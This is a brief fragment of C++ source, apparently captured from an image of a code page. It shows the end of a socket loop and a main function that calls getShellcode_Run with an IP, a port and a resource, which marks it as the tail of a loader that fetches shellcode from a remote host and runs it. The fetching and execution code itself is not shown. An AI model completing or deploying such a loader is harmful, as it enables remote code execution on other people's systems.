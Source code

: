 ```cpp
        CloseHandle(processHandle);
    } while (iResult > 0);

    closesocket(ConnectSocket);
    WSACleanup();
}

int main() {
    getShellcode_Run(ip, port, resource);
    return 0;
}
```
